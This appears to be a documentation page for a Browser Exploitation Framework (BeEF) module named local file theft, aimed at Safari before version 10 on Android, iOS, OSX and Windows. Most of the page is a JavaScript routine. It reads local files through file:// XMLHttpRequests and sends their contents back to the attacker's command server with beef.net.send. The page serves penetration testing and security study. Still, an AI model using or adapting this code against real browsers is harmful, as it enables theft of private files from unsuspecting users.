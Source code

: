 ## Summary

* **Objective**: Steals local files in common locations across Android, iOS, OSX and Windows
* **Authors**: mh
* **Browsers**: Safari (< 10) and potentially others

* [Code](https://github.com/beefproject/beef/tree/master/modules/misc/local_file_theft)

## Internal Working

Uses the `file://` scheme to steal files with XMLHttpRequest (XHR).

```js
function grabFiles(dir,os){
        tmpfile = {}
        for (i in fileList[os]['post']){
        beef.debug('dir = ' + dir);
        beef.debug('fileList: ' + fileList[os]['post'][i]);
                beef.debug(i);
                tmpfile[i] = new XMLHttpRequest()
                tmpfile[i].open ('get',dir+"/"+fileList[os]['post'][i]);
                tmpfile[i].send();

                tmpfile[i].onreadystatechange=function(){
            for (j in fileList[os]['post']) {
                if(tmpfile[j].readyState==4) {
                    beef.debug('new returned for: ' + j);
                    result = j +": "+ tmpfile[j].responseText;

                    beef.net.send("<%= @command_url %>", <%= @command_id %>, 'result='+result);
                            }
            	}
            }


        }
}

```


## Feedback

